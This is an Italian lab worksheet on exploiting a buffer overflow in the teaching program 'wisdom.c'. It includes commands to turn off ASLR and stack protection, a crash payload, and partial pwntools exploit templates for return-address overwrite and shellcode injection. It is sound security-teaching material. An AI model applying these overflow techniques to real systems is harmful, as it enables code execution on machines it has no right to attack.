

# Esercizi su buffer overfow {#buffer-overflow-exercises}

In questo esercizio, consideremo il programma di esempio `wisdom.c`, disponibile nella macchina virtuale nella cartella `swsec-labs/buffer-overflow/challenge`, e nel repository online su <https://github.com/swsec-book/swsec-labs>. L'autore del programma è il prof. Michael Hicks della University of Maryland.

Questo programma richiede all'utente di digitare in input il valore `1` per stampare tutte le stringhe inserite dall'utente fino a quel momento ("perle di saggezza"), oppure il valore `2` per poi inserire una nuova "perla di saggezza" (ossia, una stringa di caratteri).



Per svolgere l'esercizio, occorre disabilitare la randomizzazione degli indirizzi di memoria, e compilare il programma come segue:

```
$ sudo sysctl -w kernel.randomize_va_space=0
$ gcc -fno-stack-protector -z execstack -g wisdom-alt.c -o wisdom-alt
```

Il programma ha una vulnerabilità di buffer overflow nella funzione `put_wisdom()`, che copia in un buffer la stringa di caratteri della "perla di saggezza".

È possibile provocare un crash con i seguenti comandi.

```bash
# La prima parte del payload invia il valore "2", più un riempitivo usato per la lettura del valore
$ python3 -c 'import sys; sys.stdout.write("2\n" + "A"*1022)' > payload

# La seconda parte del payload invia una stringa di 1000 caratteri, per provocare un buffer overflow
$ python3 -c 'print("A"*1000)'        >> payload

# Esecuzione del programma con il payload
$ ./wisdom-alt < payload
```

## Primo esercizio

Si crei un exploit per la vulnerabilità di buffer overflow, sovrascrivendo l'indirizzo di ritorno sullo stack. Inserire al suo posto l'indirizzo della funzione `write_secret()`, il modo che il programma stampi a video un messaggio segreto.

```
from pwn import *
context.arch='amd64'	# 64-bit version of x86
context.os='linux'

# Return address in little-endian format
ret_addr = # TBD: indirizzo di write_secret()
addr = p64(ret_addr, endian='little')

# Opcode for the NOP instruction (for NOP sled)
nop = asm('nop')

# First part of the payload
payload = b"2\n" + b"A"*1022

# Second part of the payload
payload += # TBD: riempitivo di NOP # + addr

with open("./shellcode_payload", "wb") as f:
       f.write(payload)
```

Per determinare l'indirizzo di `write_secret()`, è possibile utilizzare `gdb` come segue.

```
$ gdb ./wisdom-alt
(gdb) break main
(gdb) run

...l'esecuzione si interrompe subito prima del main()...

(gdb) print write_secret
$1 = {void (void)} 0x555555555229 <write_secret>
```

## Secondo esercizio

Modificare l'exploit dell'esercizio precedente, per iniettare ed eseguire uno shellcode nel programma vittima.


## Terzo esercizio

Compilare il programma in modalità a 32 bit, e modificare l'exploit dell'esercizio precedente.

Per compilare il programma, è possibile usare il seguente comando.

```
gcc -fno-stack-protector -z execstack -m32 -g wisdom-alt.c -o wisdom-alt-32
```

In questa variante dell'esercizio, occorre ricercare la sotto-stringa ciclica nel debugger in modo differente.

- In x86 a 64 bit, l'istruzione macchina RET causa una eccezione **PRIMA** di fare il pop dell'indirizzo dallo stack
    - L'indirizzo rimane sulla cima dello stack
    - Il processore si rifiuta di scrivere in RIP un indirizzo "non-canonico"
    - La sotto-stringa ciclica si trova quindi **sulla cima dello stack**

- In x86 a 32 bit, l'istruzione macchine RET causa una eccezione **DOPO** aver fatto il pop dell'indirizzo dallo stack
    - L'indirizzo viene rimosso dalla cima dello stack
    - Il processore inserisce l'indirizzo in EIP
    - La sotto-stringa ciclica si trova **nel registro EIP**

Completare l'exploit partendo dal seguente codice.

```
from pwn import *
context.arch='i386'	# 32-bit version of x86
context.os='linux'

# Return address in little-endian format
ret_addr = # TBD: indirizzo dello shellcode (oppure di write_secret()) #
addr = p32(ret_addr, endian='little')

# Opcode for the NOP instruction (for NOP sled)
nop = asm('nop', arch="i386")

# Writes payload on a file
payload = b"2\n" + b"A"*1022
payload += # TBD: riempitivo di NOP, shellcode # +  addr

with open("./shellcode_payload", "wb") as f:
       f.write(payload)
```

## Quarto esercizio

Il programma contiene un'altra vulnerabilità di buffer overflow, che riguarda l'array `ptrs[]` in area dati globale. La vulnerabilità si innesca se si inserisce in input un valore diverso da 1 o 2.

Questo esercizio richiede di inserire un valore in input in modo da eseguire la funzione `pat_on_back()`. 
Occorre fare in modo che il programma acceda alla variabile-puntatore `p` invece che agli elementi contenuti in `ptrs[]`.
Si ricordi che la sintassi in C `array[i]` equivale a `array + i*sizeof(array[0])`.

Suggerimenti:

- Prima di avviare il programma con `run`, impostare un breakpoint prima o dopo la read() (es. `break wisdom-alt.c:97`).
- Determinare gli indirizzi delle variabili `buf`, `ptrs`, `p`, e delle funzioni, usando il comando `print variabile`.
- Per proseguire l'esecuzione, usare `next` (esegue singola istruzione, poi si ferma di nuovo) oppure `continue`.


